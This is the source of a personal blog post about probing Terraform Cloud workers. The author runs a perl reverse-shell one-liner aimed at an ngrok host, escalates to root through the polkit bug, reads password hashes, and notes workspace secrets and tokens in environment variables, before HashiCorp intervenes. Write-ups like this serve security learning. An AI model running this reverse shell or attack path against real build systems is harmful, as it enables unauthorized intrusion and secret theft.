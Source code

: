 ```yaml
---
id: sorry-hashicorp
previewImageUrl: https://cdn.ruse.tech/imgs/sorry-hashicorp/icon.png
datePosted: 09-29-2022
pinned: false
description: Exploring Terraform Enterprise and getting caught
tags: hacking
      terraform
title: Sorry hashicorp
---
```

# Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my personal projects.

Using a remote TFE workspaces comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and you terraform code executes. 

This got me thinking, I am running code on another persons machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking a way I can get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. This at this time PolKit had only been out for few day (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on github and we have root.

With root I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistance? 

My main question was, can I access other users runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am  running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they delete after a single run? 

To test this I adding a cron on an instance to callback and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I check /etc/shadowd and found the password hash for the Terraform users. 

Then I check several instances it was clear the all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not really an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you are able to run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried using accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my own environment in an isolated account with good intentions. That being said it likely against the terms and services. I do not recommend, in any case doing unauthorize testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```bash
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out, and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc. and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already take to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area and I would have loved to have more time explore the host configurations, it will have to wait for an authorized time. ;)